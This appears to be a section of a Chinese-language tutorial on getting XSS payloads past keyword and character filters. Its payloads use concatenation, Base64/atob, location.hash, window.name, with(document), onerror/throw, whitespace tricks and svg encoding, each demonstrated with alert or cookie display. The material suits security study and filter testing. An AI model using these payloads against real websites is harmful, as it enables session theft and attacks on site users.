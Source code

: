 

---


## 十八、敏感关键字符绕过

> 
<h3> 18.1、字符串拼接与混淆</h3>
JavaScript中的对象方法可通过数组的方式进行调用
eg：调用alert函数：
window['alert'](/xss/);
是字符串，那么自然就可以通过拼接的方式进行混淆
window['al'+'ert'](/xss/)
<hr/>
<h3>18.2、编码解码</h3>
通过各种编码注入，然后解码后来实现绕过
HTML进制编码、CSS进制编码、Javascript进制编码、URL编码、JSFuck编码
[XSSEE 3.0 Beta - by Monyer (evilcos.me)<img alt="" src="https://csdnimg.cn/release/blog_editor_html/release2.1.4/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=M5H6"/>https://evilcos.me/lab/xssee/](https://evilcos.me/lab/xssee/)
<hr/>
使用JavaScript自带的Base64编码解码函数实现绕过
btoa函数可以将字符串编码为Base64字符串
atob函数可以将Base64字符串还原
eg：实现与alert(/xss/)相同的效果：
window[atob("YWxl"+"cnQ=")](/xss/)
<hr/>

<h3>18.3、location.*、window.name</h3>
会对输入的敏感关键字进行过滤，可以将XSS代码放置于其他不被浏览器提交至服务端的部分，如location.*、window.name等
<hr/>
location.*的构造如下：
http://example.com/xss.php?input=&lt;input οnfοcus=outerHTML=decodeURI(location.hash)&gt;#&lt;img src=x οnerrοr=alert(/xss/)&gt;
<hr/>
window.name的构造页面如下：
&lt;iframe src="http://example.com/xss.php?input=%3Cinput%20οnfοcus=location=window.name%3E" name="javascript:alert(/xss/)"&gt;&lt;/iframe&gt;
<hr/>
<h3>18.4、绕过-过滤“.”</h3>
在JavaScript中，可以使用with关键字设置变量的作用域，利用此特性可以绕过对“.”的过滤
with(document)alert(cookie);
<hr/>
<h3>18.5、绕过-过滤“()”</h3>
在JavaScript中，可以通过绑定错误处理函数，使用throw关键字传递参数绕过对“()”的过滤
window.οnerrοr=alert; throw 1;
<hr/>
<h3>18.6、绕过-过滤空格</h3>
使用换行符0x09、0x10、0x12、0x13、0x0a等字符代替空格绕过过滤
http://example.com/xss.php?input=&lt;img%0asrc=x%0aοnerrοr=alert(/xss/)&gt;

在标签名称和第一个属性间也可以使用“/”代替空格
&lt;input/οnfοcus=alert(/xss/)&gt;
<hr/>
<h3>18.7、svg标签</h3>
svg内部的标签和语句遵循的规则是直接继承自xml而不是html，区别在于svg内部的script标签中可以允许存在一部分进制或编码后的字符（比如实体编码）
http://example.com/xss.php?input=1"&gt;&lt;svg&gt;&lt;script&gt;alert%26%23x28;1%26%23x29&lt;/script&gt;&lt;/svg&gt;
